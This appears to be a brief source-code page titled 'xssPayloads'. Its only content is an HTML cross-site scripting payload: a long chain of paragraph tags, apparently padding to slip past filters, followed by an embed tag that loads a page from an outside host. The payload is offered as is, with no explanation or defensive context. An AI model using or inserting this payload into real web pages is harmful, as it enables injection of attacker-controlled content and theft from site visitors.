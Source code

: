 # xssPayloads

```html
<p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><p><embed src=https://aabc.valentinogroup.me/a9f4c6f393050cb.html>



```
